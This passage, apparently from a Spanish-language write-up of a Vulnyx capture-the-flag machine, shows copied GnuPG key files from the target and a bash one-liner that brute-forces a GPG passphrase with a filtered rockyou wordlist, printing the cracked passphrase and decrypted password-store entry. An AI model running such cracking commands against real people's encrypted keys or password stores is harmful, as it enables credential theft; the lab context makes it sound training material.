 ```bash
gpg-agent.conf                                           100%   36     9.3KB/s   00:00    
trustdb.gpg                                              100% 1280   442.1KB/s   00:00    
.#lk0x

000055afe4c8a3f0.solar.309336                      100%   17     5.5KB/s   00:00    
E6DB2B029F01725397A555CD6CE6C909C038D50C.rev             100% 1626   528.3KB/s   00:00    
pubring.kbx~                                             100% 1960   713.3KB/s   00:00    
C622C75FED7EF077FDE1AB4D6A1F5D37E4896A95.key             100% 3105     1.9MB/s   00:00    
18DB29FBB15652340964CF0E1C710F34AA848ADD.key             100% 3105     1.7MB/s   00:00
```

Utilizando rockyou y filtrando las contraseñas que empiezan por "love" y terminan por un número, intentamos obtener el passphrase utilizado para encriptar la clave GPG con el siguiente script bash.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/SOLAR/test]
└─$ time grep -E '^love.*[0-9]$' /usr/share/wordlists/rockyou.txt | xargs -P 4 -I {} sh -c 'echo "Testing passphrase: {} ..."; gpg --batch --yes --passphrase "{}" --pinentry-mode loopback --decrypt .password-store/work/office.gpg 2>/dev/null && echo "** Passphrase found: {}" && killall xargs'
Testing passphrase: love123 ...
Testing passphrase: love12 ...
Testing passphrase: loveme1 ...
Testing passphrase: lovely1 ...
Testing passphrase: lover1 ...
...
Testing passphrase: love27 ...
Testing passphrase: lovers2 ...
Testing passphrase: loverboy1 ...
Testing passphrase: love55 ...
Testing passphrase: love77 ...
Testing passphrase: love45 ...
d1NpIh1bCKMx
** Passphrase found: loverboy1
zsh: broken pipe  grep --color=auto -E '^love.*[0-9]$' /usr/share/wordlists/rockyou.txt | 
zsh: terminated   xargs -P 4 -I {} sh -c 

real    21,11s
user    0,05s
sys     0,00s
cpu     0%

real    21,11s
user    0,16s
sys     0,02s
cpu     0%
```

En unos 21 segundos obtenemos el passphrase de la clave GPG `loverboy1` y los datos encriptados de `.password-store/work/office.gpg` `d1NpIh1bCKMx`, aunque esta contraseña no nos servirá. Podemos ahora visualizar el resto de contraseñas en el gestor `pass`.

### Node
